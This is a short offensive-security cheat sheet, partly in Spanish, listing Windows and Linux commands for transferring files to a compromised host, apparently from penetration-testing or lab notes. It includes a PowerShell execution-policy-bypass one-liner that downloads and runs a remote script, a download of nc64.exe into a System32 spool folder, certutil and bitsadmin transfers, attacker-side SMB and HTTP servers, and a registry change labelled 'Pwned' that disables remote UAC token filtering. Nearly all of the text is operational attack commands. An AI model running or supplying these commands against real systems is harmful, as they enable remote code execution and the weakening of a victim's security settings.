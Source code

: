 Windows Linux Commands For Files Transfers

Windows Commads
IWR( )
- powershell.exe -command iwr -Uri http://10.10.16.4/file -OutFile C:\Temp\file
- powershell.exe iwr -uri 10.10.16.4/file -o C:\Temp\file
- powershell iwr 10.10.16.4/file -o C:\Temp\file
- powershell Invoke-WebRequest "http://10.50.102.157:800/nc64.exe" -OutFile "C:\Windows\System32\spool\drivers\color\\Pro-nc64.exe"
- powershell.exe -exec bypass -c "IEX(New-Object Net.WebClient).downloadString('http://10.200.101.200:20003/PST.ps1')"

Certutil
- certutil -urlcache -f http://10.10.16.4/file file
- certutil -urlcache -split -f http://10.10.16.4/file file 

Bitsadmin
- bitsadmin /transfer job http://10.10.16.4/file C:\Temp\file

Curl
- curl http://10.10.16.4/file -o file

Wget
- powershell wget http://10.10.16.4/file -OutFile file
- powershell.exe wget http://10.10.16.4/file -OutFile file

Powershell
- powershell.exe (New-Object System.Net.WebClient).DonwloadFile('http://10.10.16.4/file', 'file')

SMB
- copy \\10.10.16.4\smbFolder\file 
- net use x: \\10.10.16.4\smbFolder\file; cd x; copy \\10.10.16.4\file

TFTP
Es necesario usar el modulo Auxiliar Msf Server/tftp
- tftp -i 10.10.16.4 GET file.txt


Linux Commands 
Servidor Web Para compartir archivos
1.- python3 -m http.server 80
2.- Servidor por SMB -- impacket-smbserver smbFolder $(pwd) -smb2support
3.- msfconsole --> TFTP
4.-


# LocalAccountTokenFilterPolicy - Pwned
cmd /c reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f

# Enumeracion de Pogramas
tasklist /V | findstr <programa>
